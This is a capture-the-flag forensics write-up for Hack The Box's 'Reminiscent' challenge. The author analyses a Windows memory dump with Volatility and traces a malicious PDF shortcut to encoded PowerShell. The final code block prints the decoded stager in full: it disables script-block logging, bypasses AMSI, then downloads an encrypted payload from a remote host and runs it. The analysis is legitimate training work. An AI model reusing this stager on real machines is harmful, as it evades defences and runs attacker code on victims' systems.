 # [Reminiscent](https://app.hackthebox.com/challenges/Reminiscent) Writeup [HTB]
_Forensics_

## Introducing the challenge
In this challenge, I have to find the malware that some [B.Loodworm](https://forum.tip.it/topic/35909-bloodworm-virus/) guy sent via email to an unfortunate employee, through a `resume.zip` file. To do so, I have access to the memory dump of the machine.

I open `volatility` and all the possible cheatsheets (listed [here](../../utilities/tools.md#forensics)), and I'm ready to go!

## Analyzing the processes
First, I list all processes that were running when the screenshot was taken:
```sh
$ volatility -f flounder-pc-memdump.elf --profile=Win7SP1x64 pstree
Volatility Foundation Volatility Framework 2.6.1
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
 0xfffffa800169bb30:csrss.exe                         348    328      9    416 2017-10-04 18:04:29 UTC+0000
 0xfffffa8001f63b30:wininit.exe                       376    328      3     77 2017-10-04 18:04:29 UTC+0000
 [...]
 0xfffffa80006b7040:System                              4      0     83    477 2017-10-04 18:04:27 UTC+0000
. 0xfffffa8001a63b30:smss.exe                         272      4      2     30 2017-10-04 18:04:27 UTC+0000
 0xfffffa80020bb630:explorer.exe                     2044   2012     36    926 2017-10-04 18:04:41 UTC+0000
. 0xfffffa80022622e0:VBoxTray.exe                    1476   2044     13    146 2017-10-04 18:04:42 UTC+0000
. 0xfffffa80007e0b30:thunderbird.ex                  2812   2044     50    534 2017-10-04 18:06:24 UTC+0000
. 0xfffffa800224e060:powershell.exe                   496   2044     12    300 2017-10-04 18:06:58 UTC+0000
.. 0xfffffa8000839060:powershell.exe                 2752    496     20    396 2017-10-04 18:07:00 UTC+0000
```
Interestingly, the only processes that were executed after Thunderbird are two Powershells, PID 496 and 2752. I decide to keep an eye on them, and proceed to look at the files.

## Listing the files
Since the `resume.zip` file is most likely responsible for all this mess, I scan the dumped files to see if I can find it somewhere.
```sh
$ volatility -f flounder-pc-memdump.elf --profile=Win7SP1x64 filescan | grep resume
Volatility Foundation Volatility Framework 2.6.1
0x000000001e1f6200      1      0 R--r-- \Device\HarddiskVolume2\Users\user\Desktop\resume.pdf.lnk
0x000000001e8feb70      1      1 R--rw- \Device\HarddiskVolume2\Users\user\Desktop\resume.pdf.lnk
```
I didn't find the zip, but I have a link to a PDF! I use `volatility` yet again to dump it.
```sh
$ volatility -f flounder-pc-memdump.elf --profile=Win7SP1x64 dumpfiles -Q 0x000000001e1f6200 --name resume -D .
Volatility Foundation Volatility Framework 2.6.1
DataSectionObject 0x1e1f6200   None   \Device\HarddiskVolume2\Users\user\Desktop\resume.pdf.lnk
SharedCacheMap 0x1e1f6200   None   \Device\HarddiskVolume2\Users\user\Desktop\resume.pdf.lnk
```
According to `file`, this is actually a Windows shortcut:
```sh
$ file file.None.0xfffffa80022ac740.resume.pdf.lnk.dat
file.None.0xfffffa80022ac740.resume.pdf.lnk.dat: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has command line arguments, Icon number=1, Archive, ctime=Mon Aug  7 14:41:42 2017, mtime=Mon Aug  7 14:41:42 2017, atime=Fri Dec  9 01:34:22 2016, length=443392, window=hide
```

## Taking the shortcut!
Immediately, I run `strings` to take a deeper look to this mysterious file.
```sh
$ strings file.None.0xfffffa80022ac740.resume.pdf.lnk.dat 
/C:\
DKfp
Windows
DKfp*
System32
WINDOW~1
v1.0
KV}*
powershell.exe
K6}*
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
%SystemRoot%\system32\SHELL32.dll
1SPS
cABvAHcA[...]wBBAEEAPQA=
,&fbM
,&fbM
```
where `cABvAHcA[...]wBBAEEAPQA=` is a massive, almost 10 kB string, that I don't report here for the sake of simplicity.

Now, I'm no Windows expert, and I'm not sure how "MS Windows shortcuts" work. However, I'm pretty sure they don't randomly call Powershells here and there. Then, there is that huge, super suspicious string. I can smell the base 64 from here. I paste it into a decoder, and get this:
```
powershell -noP -sta -w 1 -enc JABHAHIA[...]ABJAEUAWAA=
```
where `JABHAHIA[...]ABJAEUAWAA=` is another suspiciously-base-64, 3.5 kB string. I decode it and get the malware code!
```
$GroUPPOLiCYSEttINGs = [rEF].ASseMBLY.GEtTypE('System.Management.Automation.Utils')."GEtFIE`ld"('cachedGroupPolicySettings', 'N'+'onPublic,Static').GETValUe($nulL);$GRouPPOlICySeTTiNgS['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging'] = 0;$GRouPPOLICYSEtTingS['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging'] = 0;[Ref].AsSemBly.GeTTyPE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GEtFieLd('amsiInitFailed','NonPublic,Static').SETVaLuE($NulL,$True)};[SysTem.NeT.SErVIcePOIntMAnAgER]::ExpEct100COnTinuE=0;$WC=NEW-OBjEcT SysTEM.NEt.WeBClIEnt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$wC.HeaDerS.Add('User-Agent',$u);$Wc.PRoXy=[SysTeM.NET.WebRequEst]::DefaULtWeBPROXY;$wC.PRoXY.CREDeNtIaLS = [SYSTeM.NET.CreDEnTiaLCaChe]::DeFauLTNEtwOrkCredentiAlS;$K=[SYStEM.Text.ENCODIng]::ASCII.GEtBytEs('E1gMGdfT@eoN>x9{]2F7+bsOn4/SiQrw');$R={$D,$K=$ArgS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.CounT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxoR$S[($S[$I]+$S[$H])%256]}};$wc.HEAdErs.ADD("Cookie","session=MCahuQVfz0yM6VBe8fzV9t9jomo=");$ser='http://10.10.99.55:80';$t='/login/process.php';$flag='HTB{$_REDACTED_$}';$DatA=$WC.DoWNLoaDDATA($SeR+$t);$iv=$daTA[0..3];$DAta=$DaTa[4..$DAta.LenGTH];-JOIN[CHAr[]](& $R $datA ($IV+$K))|IEX
```
(Yes, the flag is here, too)

## Read more!
[➡️ Next challenge: emo](./emo.md)